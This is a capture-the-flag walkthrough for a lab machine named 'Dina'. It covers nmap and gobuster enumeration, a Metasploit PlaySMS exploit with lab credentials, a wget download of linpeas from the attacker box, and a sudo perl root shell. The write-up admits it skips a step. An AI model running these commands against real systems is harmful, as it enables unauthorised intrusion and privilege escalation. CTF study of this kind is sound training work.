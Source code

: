 # Metasploit CTF [Dina]
## Enumeration

**Nmap Port Scan:**

- **Command:**
    
    ```powershell
    nmap -A -oN scan <MACHINE-IP>
    ```
    
- **Results:**
    
    ![Untitled](https://curious-cloth-153.notion.site/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F95fa80c9-fc09-41c7-a313-856f4155a90a%2F8d6c3479-7eac-490b-87fb-bf3000899181%2FUntitled.png?table=block&id=476ec69f-2b81-4aca-a692-b9047e63cdb3&spaceId=95fa80c9-fc09-41c7-a313-856f4155a90a&width=1390&userId=&cache=v2)
    

**Service Versions Found:** 

- **80 | Apache | 2.2.22**

**Gobuster Scan:**

- **Command:**
    
    ```powershell
    gobuster dir -u http://<MACHINE-IP-HERE> -w /usr/share/wordlists/dirb/big.txt
    ```
    
- **Results:**
    
    ```powershell
    /.htpasswd
    /.htaccess
    /cgi-bin/
    /index
    /nothing
    /robots.txt
    /robots
    /secure
    /server-status
    /tmp
    /uploads
    ```
    

**Source Code:**

<aside>
💡 inspect element in the “/nothing” web directory to find a list of secret passwords, make a wordlist with those passwords on your kali box.

</aside>

_missing jump between password list and playsms exploit

## Exploitation

**Exploit Found:**

[PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)](https://www.exploit-db.com/exploits/48335)

**Metasploit Module:**

- **Payload**
    
    ```jsx
    use exploit/multi/http/playsms_uploadcsv_exec
    ```
    
- **Options**
    
    ```jsx
    set rhost 192.168.43.219
    set lhost 192.168.43.171
    set username touhid
    set password diana
    set targeturi /SecreTSMSgatwayLogin
    ```
    

**Navigation:**

- **Get a shell on the machine**
    
    ```jsx
    shell
    ```
    

- **Upgrade to an interactive shell**
    
    ```jsx
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    

## Privilege Escalation

**Linpeas is in the “~/Tools” Directory of all the machines**

https://github.com/carlospolop/PEASS-ng/releases

**Linpeas:**

- **Host a Python Server from “~/Tools” on the Kali Box**
    
    ```jsx
    python3 -m http.server 80
    ```
    
- **Download Linpeas on to the vulnerable machine**
    
    ```jsx
    CD into Uploads Directory
    ```
    
    ```jsx
    wget http://<KALI-IP>/linpeas.sh
    ```
    
    ```jsx
    chmod +x linpeas.sh
    ```
    
    ```jsx
    ./linpeas.sh
    ```
    


**💡 Using Linpeas.sh We find that Perl has Sudo privileges without having to authenticate as a Sudo user “/user/bin/perl”**
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

**Get a root shell:**

```jsx
sudo perl -e 'exec "/bin/bash";'
```

**PWN3D!**
